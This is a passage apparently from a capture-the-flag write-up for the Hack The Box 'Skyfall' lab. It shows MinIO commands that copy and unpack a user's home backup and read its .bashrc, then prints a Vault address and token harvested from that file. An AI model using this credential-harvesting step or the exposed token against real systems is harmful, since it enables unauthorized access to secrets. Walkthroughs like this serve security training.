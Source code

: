 ```bash
mc cp --recursive myminio/askyy/home_backup.tar.gz ./home_backup.tar.gz
tar -xzvf home_backup.tar.gz
cat .bashrc
```

<figure><img src="../.gitbook/assets/image (147).png" alt=""><figcaption></figcaption></figure>

* found a Vault API address and Vault Token in `.bashrc file`

<figure><img src="../.gitbook/assets/image (148).png" alt=""><figcaption></figcaption></figure>

<pre><code><strong>VAULT_API_ADDR="http://prd23-vault-internal.skyfall.htb"
</strong><strong>VAULT_TOKEN="hvs.CAESIJlU9JMYEhOPYv4igdhm9PnZDrabYTobQ4Ymnlq1qY-LGh4KHGh2cy43OVRNMnZhakZDRlZGdGVzN09xYkxTQVE"
</strong></code></pre>
